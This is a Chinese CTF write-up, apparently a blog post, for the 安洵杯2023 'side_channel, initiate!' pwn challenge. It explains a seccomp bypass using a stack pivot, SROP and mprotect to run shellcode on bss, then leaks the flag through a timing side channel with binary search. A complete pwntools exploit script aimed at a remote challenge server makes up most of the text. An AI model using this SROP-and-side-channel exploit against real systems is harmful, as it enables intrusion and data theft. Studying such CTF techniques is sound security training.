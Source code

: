 当程序有办法读取到flag但无法将flag输出出来时，可以采用侧信道爆破flag确定其内容。

例题：[安洵杯2023 side_channel，initiate!](https://files.cnblogs.com/files/blogs/709433/side_channel%EF%BC%8Cinitiate.7z?t=1711625090&download=true "安洵杯2023 side_channel，initiate!")

题目本身很简单，允许在bss上写一大段，然后一个栈溢出。但沙箱是这个画风：
![image](https://img2024.cnblogs.com/blog/2567452/202403/2567452-20240328194202670-441879943.png)
函数里还有一个单纯的`mov rax 0fh`，允许了rt_stgreturn和mprotect的权限，很明显的提示，就是让我们SROP之后利用mprotect改bss的执行权限，然后在bss上执行shellcode。
具体就是在bss上布置好SROP所需的ROP链，sigframe，预留好后面执行shellcode所需的栈，"./flag"以及shellcode，后面的读入再开始栈迁移。执行的时候先从栈段迁移到bss上，做`mov rax 0fh`之类的设置sigframe，sigframe设置成跳到mprotect，把bss的执行权限改出来，然后rsp设置到之前预留好的bss上的"栈"上。rip做完syscall紧接着一个ret就可以返回到shellcode上，继续往高地址执行；rsp往低地址增长即可。
```
        buf = 0x404060
        bss_H = 0x405000
        rax_15_ret = 0x401193
        leave_ret = 0x401446
        syscall_rbp_ret = 0x40118a
        call_syscall = 0x401186
        payload = b""
        payload = payload.ljust(0x400,b'\0')
        sigframe = SigreturnFrame()
        sigframe.rax = 10
        sigframe.rdi = 0x404000
        sigframe.rsi = 0x2000
        sigframe.rdx = 7
        sigframe.rsp = buf+0x508
        sigframe.rbp = buf+0x508
        sigframe.rip = call_syscall
        payload+= p64(rax_15_ret) + p64(syscall_rbp_ret) + bytes(sigframe)
        payload = payload.ljust(0x500,b'\0')
        payload+= p64(buf+0x518) + b"./flag\0\0"
        payload +=asm(sh.format(index,mid))
        # p = process("./chall")
        p = remote("47.108.206.43",25678)
        p.recvline()
        p.send(payload)
        payload = b'a'*0x2a + p64(buf+0x400-8) + p64(leave_ret)
        T = time.time()
        # gdb.attach(p)
        p.recvline()
        p.send(payload)
```

然后开始执行shellcode，做我们的侧信道。在shellcode中把flag读到内存中，然后用这样的汇编代码来猜测字符：
```
mov rax,0
mov rdi,3
mov rsi,0x404600
mov rdx,0x40
syscall
mov rax,rsi
mov bl,byte ptr [rax+{}]
cmp bl,{}
ja $-3
```
即，拿读到的第i个字符和猜测字符j比对，若flag[i]>j则进入循环卡死，若不同则执行到shellcode结尾爆sigsegv，如是二分查找flag的每个字符。由于远程交互还需要时间加上py效率可疑，而且判断timeout的时间必须要给充足，逐个匹配循环查找太慢了基本没法用，二分查找十几秒就能跑出一个字符来，速度可以接受。当时打远程看见flag一个一个出来了还是挺激动的（
记一下完整代码，作为侧信道板子：
```
from pwn import*
context.arch = 'amd64'
s = "{}=-abcdefghijklmnopqrstuvwxyz0123456789"
list = [ord(x) for x in s]
sh = """
mov rax,2
mov rdi,0x404570
mov rsi,0
mov rdx,0
syscall
mov rax,0
mov rdi,3
mov rsi,0x404600
mov rdx,0x40
syscall
mov rax,rsi
mov bl,byte ptr [rax+{}]
cmp bl,{}
ja $-3
"""
#若猜测的字符小于真实字符则会被卡死
index = 0
flag=""
while(1):
    l=32
    r=126
    ans=0
    while(l<=r):
        mid = (l+r)>>1
        buf = 0x404060
        bss_H = 0x405000
        rax_15_ret = 0x401193
        leave_ret = 0x401446
        syscall_rbp_ret = 0x40118a
        call_syscall = 0x401186
        payload = b""
        payload = payload.ljust(0x400,b'\0')
        sigframe = SigreturnFrame()
        sigframe.rax = 10
        sigframe.rdi = 0x404000
        sigframe.rsi = 0x2000
        sigframe.rdx = 7
        sigframe.rsp = buf+0x508
        sigframe.rbp = buf+0x508
        sigframe.rip = call_syscall
        payload+= p64(rax_15_ret) + p64(syscall_rbp_ret) + bytes(sigframe)
        payload = payload.ljust(0x500,b'\0')
        payload+= p64(buf+0x518) + b"./flag\0\0"
        payload +=asm(sh.format(index,mid))
        # p = process("./chall")
        p = remote("47.108.206.43",25678)
        p.recvline()
        p.send(payload)
        payload = b'a'*0x2a + p64(buf+0x400-8) + p64(leave_ret)
        T = time.time()
        # gdb.attach(p)
        p.recvline()
        p.send(payload)
        try:
            cur = p.recv(timeout=1)
            print(str(time.time()-T))
            if(time.time()-T>0.9):
                print("Too Small Too Small Too Small Too Small Too Small Too Small ")
                l=mid+1
            else:
                print("Big or Equal Big or Equal Big or Equal Big or Equal ")
                ans=mid
                r=mid-1
        except:
            print(str(time.time()-T))
            print("Big or Equal Big or Equal Big or Equal Big or Equal ")
            ans=mid
            r=mid-1
        p.close()
    flag+= chr(ans)
    print("Now Ans Now Ans Now Ans Now Ans Now Ans Now Ans Now Ans Now Ans " + flag)
    index = index+1
    if '}' in flag:
        break

print(flag)
```
